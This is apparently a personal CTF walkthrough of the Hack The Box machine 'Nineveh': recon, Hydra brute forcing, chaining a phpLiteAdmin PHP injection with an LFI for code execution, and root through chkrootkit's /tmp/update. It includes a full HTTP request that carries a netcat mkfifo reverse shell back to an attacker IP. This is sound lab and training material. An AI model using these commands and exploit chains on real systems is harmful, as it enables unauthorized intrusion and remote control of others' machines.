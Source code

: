 # Nineveh Walkthrough
Name: Nineveh
Date:  
Difficulty:  Medium
Goals:  OSCP Prep
Learnt:
- php://filter/convert.base64encode/resources= 
- Thinking about how to Chaining Exploits
- Different password lists although most of these CTFs are older and brute forcing logins is kind of frowned upon. It has still come up in PG boxes.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Nineveh/Screenshots/ping.png)

Nikto find info.php
![](phpinfoinnikto.png)
There is also domain name found by nmap:
![](vhosts.png)

![](blogworxdb.png)

7.0.18-0ubuntu0.16.04.1  
OpenSSL 1.0.2g 1 Mar 2016
PCRE Library Version 8.38 2015-11-23
  
www-data user and group
/etc/php/7.0/apache2

SSL /TLS everything points towards a certificate attack. Man in the middling myself to exfiltrate data somehow.


![](comments.png)

- BIG FAIL!
Login page is NOT fixed! - Hydra reports all passwords work, usernames admin and amrois

admin
amrois

https://nineveh.htb/db/
![](phpliteadmin.png)
admin:admin - does not work

Also error with ssl cert...

## Exploit

![](multipleVulnsforphpliteadmin.png)

![](hydrathelitephpadmin.png)

![](shellinsqlite.png)

RCE requires [creds](https://www.exploit-db.com/exploits/24044), wso with `admin : password123`; this is a better explaination: [masood](https://github.com/F-Masood/PHPLiteAdmin-1.9.3---Exploit-PoC) ... [Multiple](https://www.exploit-db.com/exploits/39714) does not contain a file inclusion. Given that I had issues with hydra on the https page, trying the same password for admin did not work. Returning back to the previous login at /department/login.php. As this brute forcing of a login page is neither fun and is spoiling my learning I watched the Ippsec video for this part to check seeing I would just be brute forcing password lists. admin

![](lfiwearelookingfor.png)

![](lfibreak.png)

![](lfibreaktwo.png)

I am not a php person, went back to the [Ippsec video](https://www.youtube.com/watch?v=K9DKULxSBK4) after and hour of trying LFI and reviewing. I learnt about the `php://filter`, but also that I was suppose to assume from the ninevehNotes mispelt as same: "ninvehNotes" even though it would produce a "No Note selected" was that I need to rename my sql table to ninevehNotes.php.

![900](ninevehNotesninevehNotes.png)

Code execution! Then I failed for half an hour to make that work so something went wrong. And with time constraits I have it left it here.

I then returned complete this briefly summarising everything. I gained access to phpmyadmin page which you can make sqlite databases, which the version of phpmyadmin has vulnerablity for remote php injection. While on the /department/manage.php has a lfi where the `notes=` parameter can the be given an argument to a file that has to be ninevehNotes.x file due to filtering rules with php `include()`. Reviewing what I had done and notes instead of `$_REQUEST` I used `$_GET`. And without `echo`!

 `$_REQUEST` An associative array that by default contains the contents of [`$_GET`](https://www.php.net/manual/en/reserved.variables.get.php), [`$_POST`](https://www.php.net/manual/en/reserved.variables.post.php)  and [`$_COOKIE`](https://www.php.net/manual/en/reserved.variables.cookies.php). Whereas `$_GET` An associative array of variables passed to the current script via the URL parameters (aka. query string). Note that the array is not only populated for GET requests, but rather for all requests with a query string. I also put it in the default value as suggested by the github article. 

Lessons learnt
1. Swap test swapping the fields, do not give up
2. Chaining exploits note
	1. Server Language
	2. Exploit A does X
		1. It reads a file
			1. How  - not in the sense of permissions but - rules about what it can read
	3. Exploit B doex Y
		1. Injects Code - Server is vulnerable - the concern is more in how A gets to B
			1. Where -> LFI includes a file, there need a path.
	4. As A can interact with B, what elements of A are required to make B accessable
	5. Use of symbols FOR BOTH! 
3. Spelling mistakes are faceslap

![](spellmistakesarebad.png)

I did the best bash reverse shell

```
GET /department/manage.php?notes=/var/tmp/ninevehNotes.php&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.109+33333+>/tmp/f+ HTTP/1.1
Host: 10.129.4.245
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=drnitsgevbtpi4e8kq5uc273b3
Connection: close

```

![](reverseshell.png)

![](rootlikechkrootkits.png)

I have covid and my stomach aches. I read about chkrootkit for pwk 103. It was all in front of me.depa
```bash
searchsploit chkrootkit
```

TL;DR:

chkrootkits will execute `/tmp/update` as the function slapper should be `/tmp/.update`

![](preroot.png)
![](root.png)